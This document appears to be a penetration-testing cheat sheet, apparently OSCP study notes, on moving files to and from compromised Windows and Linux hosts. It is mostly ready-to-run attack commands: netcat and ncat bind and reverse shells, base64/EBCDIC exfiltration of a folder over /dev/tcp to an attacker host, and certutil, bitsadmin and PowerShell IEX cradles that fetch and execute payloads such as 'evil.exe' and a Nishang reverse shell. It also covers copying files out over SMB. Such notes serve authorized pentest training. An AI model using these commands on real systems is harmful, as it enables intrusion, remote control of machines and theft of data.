 # File transfer

**Netcat \[nc\]** `nc -w 3 <target_ip> 1234 < LinEnum.sh` on target machine: `nc -l -p 1234 > LinEnum.sh` `nc IP_ADDR PORT > OUTFILE` \(run `nc -lvp PORT < infile` on attacking machine\)

**Bob sets listener with shell:**

`nc -lnvp 4444 -e cmd.exe` -&gt; Alice connects: `nc -nv 10.0.0.22 4444`

**or Bob listens:**

`nc -nlvp 4444` -&gt; Alice sends her shell to Bob's listener: `nc -nv 10.0.0.22 4444 -e /bin/bash`

**Ncat - Bind shell \[listener shares shell\]** `ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl` `ncat -v 10.0.0.22 4444 --ssl`

**Ncat - Reverse shell \[connector shares shell\]** `ncat --exec cmd.exe -vn 192.168.100.145 4444 --ssl` `ncat -vnl 4444 --ssl --allow 192.168.100.146`

## Unix Transfer Methods

[https://unix.stackexchange.com/questions/47434/what-is-the-difference-between-curl-and-wget](https://unix.stackexchange.com/questions/47434/what-is-the-difference-between-curl-and-wget)

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` `wget http://IP_ADDR/file -O /path/to/where/you/want/file/to/go` `curl http://attackerip/file > file` `fetch http://IP_ADDR/file` `ftp -s:input.txt` `tftp -i get file /path/on/victim`

**Upload a file** `curl --upload-file [-T] ./tecmint.txt https://transfer.sh/tecmint.txt` And rename it to an executable file using the MOVE method with the curl command: `curl -X MOVE --header Destination:http://$ip/leetshellz.php http://$ip/leetshellz.txt`

**Nc**

`nc -vl 44444 > pick_desired_name_for_received_file` `nc -N 10.11.12.10 44444 < /path/to/file/you/want/to/send`

### Exfil over TCP Socket with EBDIC and Base64

**On own attacker machine** `nc -nlvp 80 > datafolder.tmp`

**On target machine** `tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/<attacker_IP>/80`

**On own machine** `dd conv=ascii if=datafolder.tmp |base64 -d > datafolder.tar` `tar xf datafolder.tar`

**SSH to own machine** `tar zcf - /tmp/datafolder | ssh root@<attacker_IP > "cd /tmp; tar zxpf -"` tar the contents of our /tmp/datafolder while sending the output to \(-\) and then SSH it over to our attacker system

## Windows Transfer Methods

* [https://sushant747.gitbooks.io/total-oscp-guide/transfering\_files\_to\_windows.html](https://sushant747.gitbooks.io/total-oscp-guide/transfering_files_to_windows.html)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Download and Execute.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md)

### Certutil

There are many ways to copy over files. I found **certutil.exe** to be the most reliable across Windows editions. For example; [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) `cmd.exe /c "certutil[.exe] -urlcache -split -f http://$IP/Powerless.bat [Powerless.bat]"` `certutil.exe -urlcache -split -f "http://10.11.0.126/win32revtcp.exe" [shell.exe]`

### Bitsadmin

`bitsadmin /transfer download /priority normal http://IP_ADDR/file C:\output\path` \(Works on Windows 7/Windows Server 2000+\) `bitsadmin /transfer download /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe`

### Python

```python
C:\Python2.7\python.exe -c "import urllib; f = urllib.URLopener(); f.retrieve('http://<attacker ip>/rs_powershell.exe', '/temp/rs_powershell.exe');"
```

### FTP

`Python ftp\ - python -m pyftpdlib -w -p 21` the best way i've found for file transfer on MOST machines is to just use plain old ftp. just about every windows machine has it installed by default, and you can get a really good quick and easy python script "`pip install pyftpdlib` or `pip3 install pyftpdlib`" once pyftpdlib is installed, just run it in the directory you want to download files to with "`python -m pyftpdlib -w -p 21`" then on your client machine type ftp -A your.ip.add.ress \(the -A is for Anonymous, these shells will hang on user/password entry sometimes, don't use this option with linux machines though\) and you're ready to transfer files! `python -m pyftpdlib -w -p 21` or `python3 -m pyftpdlib -w`

`ftp -s:input.txt` `tftp -i 10.11.0.126 get nc.exe`

### HTTP Server

`python3 -m http.server` `python -m SimpleHTTPServer`

## Powershell - \[download is in-memory\]

* `C:\> powershell.exe -exec bypass -Command “& {iex((New-Object System.Net.WebClient).DownloadFile(‘http://IP_ADDR:PORT/FILE','C:\Users\user\AppData\Local\ack.exe'));}”`
* `PS C:\> iex (New-Object Net.Webclient).DownloadString(“http://attacker_url/script.ps1")`
* `C:\> powershell iex (New-Object Net.Webclient).DownloadString(‘http://attacker_url/script.ps1’)`
* `powershell -exec bypass -c (New-Object Net.WebClient).DownloadString(\"http://10.11.0.84/rev.ps1\") | IEX; Invoke-Powershell`

#### DownloadFile method

```text
PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $payload = "http://attacker_URL/payload.exe"
PS C:\> $local_file = "C:\programdata\payload.exe"
PS C:\> $downloader.DownloadFile($payload,$local_file)
```

#### Offsec

```text
C:\Users\Offsec> echo $storageDir = $pwd > wget.ps1
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1

C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

#### Nishang

`iex (New-Object Net.Webclient).DownloadString("http://attacker_url/Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAdress <listener IP> -Port 4444`

#### Shares & Data Exfiltration

```bash
net use \\<ip> /user:DOMAIN\username password
net view \\<ip>
dir /s \\<host>\SHARE - recursive search
dir /s /Q /O:-D /T:A \\<hostname>\SHARE - find files
xcopy /s /E \\<host>\SHARE\dir c:\blah - Xcopy recursively files &
```

**SMB Server** `python /usr/share/doc/python-impacket/examples/smbserver.py files /root/Documents/oscp/files/windows-binaries`

**To put/get files:** `copy \\10.11.0.126\files\nc.exe` . `copy C:\bank-account.zip \\10.11.0.126\files\`

**Execute a file from SMB server** `\\10.9.122.8\ROPNOP\met8888.exe`

